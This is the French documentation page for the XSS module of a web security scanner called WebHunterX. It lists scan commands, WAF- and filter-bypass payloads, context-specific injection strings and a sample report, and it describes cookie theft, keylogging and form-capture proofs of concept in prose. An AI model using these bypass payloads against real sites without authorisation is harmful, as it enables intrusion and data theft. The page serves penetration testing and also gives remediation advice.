 # Module XSS

Le module XSS (Cross-Site Scripting) de WebHunterX permet de détecter et d'exploiter les vulnérabilités XSS dans les applications web. Ce module identifie divers types de vulnérabilités XSS et fournit des payloads adaptés pour le contournement des mesures de sécurité courantes.

## Types de XSS supportés

WebHunterX détecte trois types principaux de XSS :

- **XSS Réfléchi** : Les payloads injectés dans une requête sont immédiatement renvoyés dans la réponse
- **XSS Stocké** : Les payloads sont stockés sur le serveur et affichés ultérieurement à d'autres utilisateurs
- **XSS basé sur le DOM** : Les payloads sont exécutés via des manipulations du DOM côté client

## Caractéristiques principales

- **Détection intelligente des points d'injection** : Analyse automatique des points d'injection potentiels
- **Contournement de WAF** : Techniques avancées pour éviter les protections des WAFs courants (ModSecurity, Cloudflare, etc.)
- **Classification des contextes** : Détection du contexte d'exécution (HTML, attributs, JavaScript, CSS)
- **Génération de preuves de concept** : Création automatique de PoC pour démontrer l'impact des vulnérabilités
- **Obfuscation adaptative** : Encodage et obfuscation en fonction du contexte détecté
- **Évaluation de la gravité** : Calcul du niveau de risque en fonction de l'impact potentiel

## Utilisation de base

```bash
# Analyse de base d'une URL
python webhunterx.py --module xss --url "https://exemple.com"

# Analyse avec authentification
python webhunterx.py --module xss --url "https://exemple.com" --cookies "PHPSESSID=abc123; auth=xyz789"

# Analyse ciblée d'un paramètre spécifique
python webhunterx.py --module xss --url "https://exemple.com/search?q=test" --param q

# Analyse avec contournement de WAF
python webhunterx.py --module xss --url "https://exemple.com" --waf cloudflare
```

## Options spécifiques

| Option | Description |
|--------|-------------|
| `--param` | Paramètre spécifique à tester |
| `--waf` | Type de WAF à contourner (cloudflare, akamai, modsecurity, etc.) |
| `--obfuscation` | Niveau d'obfuscation (0-3) |
| `--context` | Contexte d'injection à cibler (html, js, attr, etc.) |
| `--poc` | Type de preuve de concept à générer (alert, cookie, ajax, etc.) |
| `--custom-payloads` | Fichier de payloads personnalisés |

## Techniques avancées

### Contournement de filtres

Le module XSS implémente plusieurs techniques de contournement des filtres de sécurité :

```python
# Payload bypass examples
"<svg/onload=alert(1)>"                    # SVG event handler
"<img src=x onerror=alert(1)>"             # Error event handlers
"<script>eval(atob('YWxlcnQoMSk='))</script>" # Base64 encoding
"<script>setTimeout('ale'+'rt(1)',0)</script>" # String splitting
"jav&#x61;script:alert(1)"                 # HTML entity encoding
"<a href=javascript:&#x61;lert(1)>click</a>" # URL encoding bypass
```

### Détection de contexte

Le module peut détecter automatiquement le contexte de l'injection et adapter ses payloads :

- **Contexte HTML** : `<img src=x onerror=alert(1)>`
- **Contexte d'attribut** : `" onmouseover="alert(1)`
- **Contexte JavaScript** : `';alert(1)//`
- **Contexte URL** : `javascript:alert(1)`
- **Contexte CSS** : `</style><script>alert(1)</script>`

### PoC avancés

Pour les vulnérabilités confirmées, le module peut générer des preuves de concept avancées :

- **Vol de cookies** : Exfiltration des cookies vers un serveur contrôlé
- **Keyloggers** : Enregistrement des frappes au clavier
- **Capture de formulaires** : Extraction des données saisies dans les formulaires
- **Pivotage interne** : Exploitation pour les attaques sur le réseau interne

## Exemple de rapport

Le module XSS génère des rapports détaillés dans différents formats :

```json
{
  "timestamp": "2023-06-30T14:22:45",
  "target": "https://exemple.com/search?q=test",
  "vulnerabilities": [
    {
      "type": "XSS_REFLECTED",
      "parameter": "q",
      "method": "GET",
      "context": "html_body",
      "payload": "<img src=x onerror=alert(1)>",
      "proof": "Payload exécuté dans la réponse HTTP",
      "severity": "medium",
      "poc": "https://exemple.com/search?q=%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E",
      "remediation": "Échapper les caractères spéciaux HTML avec htmlspecialchars()"
    }
  ],
  "scan_details": {
    "params_tested": 4,
    "payloads_sent": 32,
    "scan_duration": "00:02:45",
    "waf_detected": false
  }
}
```

## Architecture interne

Le module XSS est composé de plusieurs sous-modules :

1. **Détecteur de points d'injection** : Analyse la structure des pages et identifie les points d'injection potentiels
2. **Analyseur de contexte** : Détermine le contexte d'exécution du code injecté
3. **Générateur de payloads** : Crée des payloads adaptés au contexte détecté
4. **Moteur d'exploitation** : Exploite les vulnérabilités identifiées
5. **Générateur de rapports** : Produit des rapports détaillés sur les vulnérabilités trouvées

## Intégration avec d'autres modules

Le module XSS peut s'intégrer avec d'autres modules de WebHunterX :

- **Module de crawling** : Pour explorer automatiquement l'application
- **Module d'authentification** : Pour tester les zones protégées par authentification
- **Module de reporting** : Pour générer des rapports consolidés

## Bonnes pratiques de correction

Le rapport inclut des recommandations de correction personnalisées en fonction du contexte :

- Utilisation de fonctions d'échappement appropriées (`htmlspecialchars()`, `encodeURIComponent()`)
- Implémentation d'une politique de sécurité du contenu (CSP)
- Validation côté serveur des entrées utilisateur
- Utilisation de frameworks qui échappent automatiquement les sorties

## Outils complémentaires

WebHunterX inclut des outils complémentaires pour le module XSS :

- **XSS Fuzzer** : Pour identifier des vecteurs XSS moins connus
- **CSP Analyzer** : Pour évaluer les politiques de sécurité du contenu
- **Proxy d'exploitation** : Pour faciliter l'exploitation manuelle des vulnérabilités détectées

## Références

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [PortSwigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 
